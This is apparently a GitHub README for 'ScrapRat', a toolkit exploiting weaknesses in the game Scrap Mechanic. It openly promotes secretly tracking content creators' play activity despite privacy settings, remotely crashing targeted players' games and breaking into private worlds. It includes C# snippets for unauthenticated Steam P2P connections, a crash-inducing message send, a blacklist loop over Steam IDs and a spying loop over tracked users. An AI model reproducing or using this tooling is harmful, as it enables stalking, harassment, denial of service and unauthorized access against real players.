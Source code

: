 # Welcome to the ScrapRat repo!
### What is this??
This is a collection of software, code snippets, sample cli's, and demonstrations outlining different impactful CWE's that are currently available to exploit in [Scrap Mechanic](https://www.scrapmechanic.com/) as of 3/21/2024.
As some of you may know, Scrap Mechanic is a wonderful game with plentiful updates and it should come as no surprise as to why these CWE critical vulnerabilities exist in the game and why they will likely continue to exist for the foreseeable future.

Some of the things the CWE's allow for include `cyber stalking`, `remote game crashing`, and `unauthorized world entry`.

Thats right! Have you ever wanted to know when exactly your favorite content creators are playing Scrap Mechanic?
Well now you can forcefully track their Scrap Mechanic activity without their knowledge even if their steam profile is on maximum privacy and they are always 'offline'.

Why stop there? Maybe you get sick and tired of the Scrap Mechanic content..?
Well have I got some new for you! With just a few clicks, their game wont last half a second before crashing! This means no more of that oh so stinky Scrap Mechanic content.

Now, if thats not your cup of tea I've got one last option for you (my personal favorite). In just (on average) 15 minutes, you will have cracked the code and you will be able to join ANY of your favorite content creators when you use the previous cyber stalking tool to find out when they are playing the game. Now you can play with your favorite content creators!

#
Now, back to business...

This repository implements the follow CWE's:

- [x] [CWE-306](https://cwe.mitre.org/data/definitions/306.html) under [Player-GetConnection#L74-L76](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRat/Player/Player.cs#L74-L76)
```csharp
internal HSteamNetConnection GetConnection() =>
this.hSteamNetConnection ??= (HSteamNetConnection)this.Interupt.RunCancelable(() => 
SteamNetworkingSockets.ConnectP2P
    (ref this.NetworkingIdentity, 0, LongTimeoutOptions.Length, LongTimeoutOptions));
```
With additional parameters under [LongTimeoutOptions#L137-L150](https://github.com/TheGuy920/Crashbot/blob/main/ScrapRat/Player/Player.cs#L137-L150)
```csharp
private static readonly SteamNetworkingConfigValue_t[] LongTimeoutOptions = [
    new SteamNetworkingConfigValue_t
    {
        m_eDataType = ESteamNetworkingConfigDataType.k_ESteamNetworkingConfig_Int32,
        m_eValue = ESteamNetworkingConfigValue.k_ESteamNetworkingConfig_TimeoutConnected,
        m_val = new SteamNetworkingConfigValue_t.OptionValue { m_int32 = 500 }
    },
    new SteamNetworkingConfigValue_t
    {
        m_eDataType = ESteamNetworkingConfigDataType.k_ESteamNetworkingConfig_Int32,
        m_eValue = ESteamNetworkingConfigValue.k_ESteamNetworkingConfig_TimeoutInitial,
        m_val = new SteamNetworkingConfigValue_t.OptionValue { m_int32 = int.MaxValue }
    }
];
```
- [x] [CWE-476](https://cwe.mitre.org/data/definitions/476.html) under [Blacklist#L143](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRat/Blacklist/MechanicNoMore.cs#L143)
```csharp
SteamNetworkingSockets.SendMessageToConnection(connection, 0, 0, 0, out long _);
```
- [ ] [CWE-208](https://cwe.mitre.org/data/definitions/208.html) Comming Soon :tm: under [SkeletonKey](https://commingsoon)

- [ ] [CWE-307](https://cwe.mitre.org/data/definitions/307.html) Comming Soon :tm: under [SkeletonKey](https://commingsoon)


# Projects
The CWE's above have been implemented in a few different and easy to use solutions. 
* [Blacklist](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRat/Game.cs#L58)
* [Spy Tool](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRat/Game.cs#L28)
* [Passphrase Timing Attack](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRat/Game.cs#L88)

### ScrapRatCli [-->](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRatCli/Program.cs#L88)
A sample cli has been created demonstrating how to use the Blacklisting feature
```csharp
foreach (ulong sid in steamids)
    ScrapMechanic.Blacklist.Add(sid, true);
```

### ScrapRatWebApi [-->](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRatCli/Program.cs#L88)
A sample WebApi has been created showcasing the cyber stalking capabilities
```csharp
foreach (var steamid in PeopleToTrack)
{
    MagnifiedMechanic mech = ScrapMechanic.BigBrother.SpyOnMechanic(steamid);
    mechanic.PlayerLoaded += _ =>
        Console.WriteLine($"[{DateTime.Now}] Player '{mech.Name}' ({mech.SteamID}) is loaded.");
    mechanic.OnUpdate += evnt =>
        Console.WriteLine($"[{DateTime.Now}] Player '{mech.Name}' ({mech.SteamID}) is {evnt}");
}
```
